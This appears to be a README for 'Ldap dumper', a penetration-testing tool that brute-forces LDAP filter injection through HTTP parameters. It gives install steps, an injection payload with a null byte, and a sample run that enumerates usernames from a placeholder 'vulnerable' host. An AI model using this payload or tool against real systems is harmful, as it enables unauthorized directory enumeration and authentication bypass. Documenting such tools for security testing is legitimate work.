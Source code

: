 Ldap dumper is a semi-fast tool to bruteforce unescaped user-input
concatenations to [LDAP filters](http://www.ietf.org/rfc/rfc1960.txt) over HTTP
parameters.

# Installation

```
git clone git@github.com:droope/ldap-brute.git
cd ldap-brute/
pip install -r requirements.txt
```

# Sample run

```
LMint-PC ldap-dumper # python ldap-dumper.py 'http://vulnerable/ldap/example2.php?name=%s)(cn=*))%%00&password=' 'AUTHENTICATED as'
INFO - Entering wildcard brute mode for URL 'http://vulnerable/ldap/example2.php?name=%s)(cn=*))%%00&password='.
INFO - Valid initial values found: ['a', 'h']
50...
100...
150...
200...
250...
300...
350...
400...
450...
Valid values found (2.918s total time, 468 total HTTP requests):

admin2
hacker
```

# Usage

Please call `python ldap-brute.py --help` for more information, including examples.

# Contribute.

Feel free to submit pull requests. You can run the tests with 

```
python -m unittest discover
```
